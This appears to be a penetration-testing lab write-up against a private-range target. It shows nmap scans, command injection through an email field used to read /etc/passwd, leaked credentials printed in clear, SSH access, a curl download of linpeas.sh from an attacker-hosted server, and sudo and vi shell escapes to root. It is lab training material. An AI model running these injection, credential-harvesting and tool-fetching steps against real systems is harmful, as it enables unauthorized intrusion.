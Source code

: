 **Scope:**

*   VPN IP Range: `10.10.200.0/24`
*   External IP range in scope: `192.168.80.0/24`
*   Internal IP range in scope: `192.168.98.0/24`

**Scanning:**

```bash
nmap -sn 192.168.80.0/24
```

*   `192.168.80.1` is up
*   `192.168.80.10` is up

```bash
nmap -sC -sV 192.168.80.10
```

*   `21/tcp` ftp vsftpd 3.0.3 (Anonymous FTP login is Allowed)
*   `22/tcp` ssh OpenSSH 7.6p1
*   `80/tcp` http Apache httpd/2.4.29

**Exploitation:**

1.  Create an account on `http://192.168.80.10/index.php`.
2.  Intercept the request with BurpSuite and test for command injection in the email field.
3.  `EMAIL=ls` -> Works.
4.  `EMAIL=cat /etc/passwd` -> Works.
5.  Found credentials in the output:
    *   Username: `privilege`
    *   Password: `Admin@962`
6.  SSH into the machine:

    ```bash
    ssh privilege@192.168.80.10
    ```

### Enumeration

**Initial Foothold:**

*   `privilege@Linux1:~$`
*   No internet connection (`ping google.com` fails).

**Transferring Tools:**

1.  Start a Python HTTP server on the attacker machine to serve reconnaissance tools (`linpeas.sh`, `PowerView.ps1`, etc.).
2.  On the victim machine, download `linpeas.sh`:

    ```bash
    curl http://10.10.200.2:8000/linpeas.sh >> lin.sh
    chmod +x lin.sh
    ```

**Privilege Escalation (Manual):**

*   `sudo -l` shows `(ALL : ALL) ALL`.
*   `sudo su` to get a root shell.
*   Alternatively, `sudo vi` and then `:!/bin/bash` to get a root shell.
